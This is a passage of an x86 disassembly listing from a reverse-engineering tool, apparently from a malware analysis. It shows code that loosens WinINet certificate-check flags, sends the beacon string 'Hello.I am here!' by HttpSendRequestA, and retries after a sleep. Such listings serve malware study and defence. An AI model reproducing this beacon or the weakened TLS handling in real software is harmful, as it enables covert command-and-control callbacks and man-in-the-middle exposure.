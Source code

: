         0040155d 8d 45 c4        LEA        EAX=>local_40,[EBP + -0x3c]
        00401560 50              PUSH       EAX
        00401561 8d 45 e4        LEA        EAX=>local_20,[EBP + -0x1c]
        00401564 50              PUSH       EAX
        00401565 6a 1f           PUSH       0x1f
        00401567 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        0040156a 89 7d c4        MOV        dword ptr [EBP + local_40],EDI
        0040156d ff 15 bc        CALL       dword ptr [->WININET.DLL::InternetQueryOptionA]  = 0000235c
                 20 40 00
        00401573 8b 35 c0        MOV        ESI,dword ptr [->WININET.DLL::InternetSetOptio   = 00002346
                 20 40 00
        00401579 80 4d e5 01     OR         byte ptr [EBP + local_1f],0x1
        0040157d 8d 45 e4        LEA        EAX=>local_20,[EBP + -0x1c]
        00401580 57              PUSH       EDI
        00401581 50              PUSH       EAX
        00401582 6a 1f           PUSH       0x1f
        00401584 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401587 ff d6           CALL       ESI=>WININET.DLL::InternetSetOptionA
        00401589 8d 45 c8        LEA        EAX=>local_3c,[EBP + -0x38]
        0040158c 57              PUSH       EDI
        0040158d 50              PUSH       EAX
        0040158e 6a 06           PUSH       0x6
        00401590 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401593 c7 45 c8        MOV        dword ptr [EBP + local_3c],0x1b7740
                 40 77 1b 00
        0040159a ff d6           CALL       ESI=>WININET.DLL::InternetSetOptionA
                             LAB_0040159c                                    XREF[1]:     004015df(j)
        0040159c be ec 31        MOV        ESI,s_Hello.I_am_here!_004031ec                  = "Hello.I am here!"
                 40 00
        004015a1 8d 7d a4        LEA        EDI=>local_60,[EBP + -0x5c]
        004015a4 a5              MOVSD      ES:EDI,ESI=>s_Hello.I_am_here!_004031ec          = "Hello.I am here!"
        004015a5 a5              MOVSD      ES:EDI,ESI=>s_o.I_am_here!_004031ec+4            = "o.I am here!"
        004015a6 a5              MOVSD      ES:EDI,ESI=>s_am_here!_004031ec+8                = "am here!"
        004015a7 a5              MOVSD      ES:EDI,ESI=>s_ere!_004031ec+12                   = "ere!"
        004015a8 8d 45 a4        LEA        EAX=>local_60,[EBP + -0x5c]
        004015ab 50              PUSH       EAX                                              char * _Str for strlen
        004015ac a4              MOVSB      ES:EDI,ESI=>s__004031ec+16                       = ""
        004015ad e8 2e 06        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        004015b2 59              POP        ECX
        004015b3 50              PUSH       EAX
        004015b4 8d 45 a4        LEA        EAX=>local_60,[EBP + -0x5c]
        004015b7 50              PUSH       EAX
        004015b8 53              PUSH       EBX
        004015b9 53              PUSH       EBX
        004015ba ff 75 f8        PUSH       dword ptr [EBP + local_c]
        004015bd ff 15 c8        CALL       dword ptr [->WININET.DLL::HttpSendRequestA]      = 0000231c
                 20 40 00
        004015c3 85 c0           TEST       EAX,EAX
        004015c5 75 1a           JNZ        LAB_004015e1
        004015c7 68 88 13        PUSH       0x1388                                           DWORD dwMilliseconds for Sleep
                 00 00
        004015cc ff 15 00        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00002248
                 20 40 00
        004015d2 ff 45 fc        INC        dword ptr [EBP + local_8]
        004015d5 83 7d fc 06     CMP        dword ptr [EBP + local_8],0x6
        004015d9 0f 8d bb        JGE        LAB_00401b9a
                 05 00 00